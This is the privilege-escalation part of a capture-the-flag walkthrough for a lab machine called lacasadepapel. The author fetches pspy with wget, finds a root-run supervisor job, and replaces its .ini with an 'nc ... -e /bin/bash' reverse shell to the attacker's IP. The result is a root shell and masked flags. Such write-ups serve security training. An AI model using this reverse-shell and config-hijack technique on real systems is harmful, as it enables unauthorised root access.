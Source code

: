 ```
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
lacasadepapel [~]$ 

```

Looking at the .ini file, we can see that it is run as root with the 'sudo' command.

With `pspy` we can see if this command is being periodically run.

I make a working directory, and copy pspy to it.
```
mkdir /var/tmp/boo
```

serve up pspy with a python server
```
python3 -m http.server 80
```
use wget to collect the file.
```
wget http://10.10.14.42/pspy
```
make the file executable and run it.
```
chmod +x pspy;./pspy
```


I find that the command is run as root, every minute:
```
CMD: UID=0    PID=9702   | sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

Change directory back to professor's home, and write a new memcached.ini by using `cat`.

```
lacasadepapel [~]$ mv memcached.ini memcached-old.ini
lacasadepapel [~]$ cat > memcached.ini << EOF
> [program:memcached]
> command = nc 10.10.14.42 6969 -e /bin/bash
> EOF
lacasadepapel [~]$ 
```

set a listener on 6969 and wait...

Its not long, and we have got our root shell.

```
nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.131] 35813
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cat /home/berlin/user.txt
4dxxxxxxxxxxxxxxxxxxxxxxxxxxx62d
cat /root/root.txt
58xxxxxxxxxxxxxxxxxxxxxxxxxxx511

```

:)










